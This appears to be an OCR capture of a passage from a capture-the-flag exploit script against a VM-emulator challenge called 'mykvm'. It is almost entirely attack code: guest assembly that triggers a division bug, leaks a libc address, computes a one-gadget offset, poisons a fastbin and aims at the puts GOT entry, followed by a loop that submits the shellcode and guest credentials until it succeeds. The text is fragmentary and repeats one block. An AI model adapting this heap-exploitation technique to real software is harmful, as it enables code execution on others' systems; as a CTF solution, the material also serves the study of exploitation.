 ```python
div eax,ebx                 # bug

next:


    mov edx, 0xdeadbeef


    pop eax                 # get one gadget 
    push eax
    add eax, 0x1b48
    mov ebx,eax
    shr eax,16
    shl eax,12
    mov ds,eax
    mov edx, dword ptr ds:[bx]
    add bx, 4
    mov ecx, dword ptr ds:[bx]
    
    sub edx, 0x3c51a8
    add edx, 0xf1247       # get one gadget over


    pop eax                # write fastbin
    push eax
    add eax,0x27e8
    mov ebx,eax
    shr eax,16
    shl eax,12
    mov ds,eax
    mov ds:[bx],edx

    add bx,4
    mov ds:[bx],ecx


    mov eax,0x602020        # puts got - 1; write dest 
    mov ebx,0
    mov ds,ebx
    mov ds:[0x7100],eax     # dest in virt


    mov eax,0x602020        # puts got - 1
    mov ebx,0
    mov ds,ebx
    mov ds:[0x7100],eax     # dest in virt

    hlt
''')

c = 1

while c:
    try:
        sla("code size:",str(len(shellcode)))
        sa("your code:",shellcode)
        sla("guest name: ",'b'*20)
        sla("guest passwd: ",'a'*20)

        io.recvline()
        a = io.recv(0x1b)
        if "mykvm" not in a:
            c = 0
```